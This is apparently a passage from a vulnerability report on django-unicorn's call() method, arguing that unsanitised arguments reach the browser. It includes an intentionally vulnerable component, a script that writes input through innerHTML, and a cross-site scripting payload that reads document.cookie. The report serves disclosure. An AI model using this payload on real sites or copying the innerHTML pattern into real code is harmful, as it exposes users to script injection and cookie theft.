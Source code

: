 ```python
def call(self, function_name, *args):
    """
    Add a JavaScript method name and arguments to be called after the component is rendered.
    """
    self.calls.append({"fn": function_name, "args": args})
```

This method simply stores the function name and arguments without any sanitization. These calls are later serialized to JSON and included in the response.

Test files like `test_unicorn_render.py` confirm that the calls are included directly in the rendered HTML:

```python
def test_unicorn_render_calls_with_arg(settings):
    # ...
    assert '"calls":[{"fn":"testCall2","args":["hello"]}]' in html
```

The serialization process doesn't include any sanitization for potentially malicious values in the arguments.

### Security Test Case
1. Create a django-unicorn component with the following code:

```python
class VulnerableComponent(UnicornView):
    user_input = ""

    def update_input(self, text):
        self.user_input = text
        self.execute_javascript()

    def execute_javascript(self):
        # Vulnerability: passing user-controlled data to call()
        self.call("processInput", self.user_input)
```

2. Add the associated JavaScript to your page:

```html
<script>
function processInput(input) {
    document.getElementById("output").innerHTML = input;
}
</script>
```

3. Submit the following payload as input:
```
<img src=x onerror=alert(document.cookie)>
```

4. Observe that the alert executes, demonstrating arbitrary JavaScript execution.

This vulnerability is particularly dangerous because it bypasses Django's built-in XSS protections and allows direct execution of arbitrary JavaScript code in the victim's browser.
